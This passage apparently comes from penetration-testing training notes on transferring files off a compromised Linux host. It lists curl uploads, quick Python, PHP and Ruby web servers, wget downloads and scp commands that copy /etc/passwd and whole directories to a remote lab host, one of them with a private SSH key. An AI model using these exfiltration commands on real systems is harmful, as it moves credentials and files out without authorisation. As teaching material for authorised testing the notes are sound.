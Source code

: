 **Upload Single File:**
```bash
curl -X POST https://192.168.49.128/upload -F 'files=@/tmp/important.txt' --insecure
```

### Alternative Web File Transfer Method

Since Linux distributions usually have Python or PHP installed, starting a web server to transfer files is straightforward.

**Create Web Server with Python3:**
```bash
python3 -m http.server 8000
```

**Create Web Server with Python2.7:**
```bash
python2.7 -m SimpleHTTPServer 8000
```

**Create Web Server with PHP:**
```bash
php -S 0.0.0.0:8000
```

**Create Web Server with Ruby:**
```bash
ruby -run -ehttpd . -p8000
```

**Download File from Target Machine:**
```bash
wget 192.168.49.128:8000/filetotransfer.txt
```

### SCP Upload

We may find some companies that allow the SSH protocol (TCP/22) for outbound connections, and if that's the case, we can use an SSH server with the scp utility to upload files.

**Upload File using SCP:**
```bash
scp /etc/passwd htb-student@10.129.86.90:/home/htb-student/
```

**Upload Directory using SCP:**
```bash
scp -r /tmp/scripts/ htb-student@10.129.86.90:/home/htb-student/
```

**Upload with SSH Key:**
```bash
scp -i ~/.ssh/id_rsa /etc/passwd htb-student@10.129.86.90:/home/htb-student/
```

### SFTP (SSH File Transfer Protocol)

SFTP provides a secure way to transfer files and can be used interactively or in batch mode.
